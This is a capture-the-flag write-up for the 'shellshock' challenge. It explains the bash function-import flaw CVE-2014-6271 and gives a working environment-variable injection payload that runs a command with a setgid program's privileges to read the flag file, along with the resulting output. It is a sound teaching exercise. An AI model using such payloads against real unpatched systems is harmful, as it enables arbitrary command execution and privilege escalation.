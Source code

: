 # shellshock

The home folder of this challenge contains the following:

```
shellshock@ubuntu:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

### shellshock.c
```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

Shellshock is a vulnerability in bash, where bash incorrectly executes trailing commands when it imports a function definition stored into an environment variable.

This is how shellshock works:

```
$ env x='() { :; }; echo pwned' bash -c echo real program
  ^^^^^^^^^^^^^^^^^                                  Command to set the environment variable
                   ^^^^^^^^^^^^                      The arbitrary command which will executed by bash
                               ^^^^^^^^^^^^^^^^^^^^  Real command
```

If the bash is vulnerable for shellshock, the arbitrary command that is set in the environment variable will be executed (with the privileges of the bash user) before executing the real command.

```
shellshock@ubuntu:~$ which cat
/bin/cat
shellshock@ubuntu:~$ env x='() { :; }; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
```
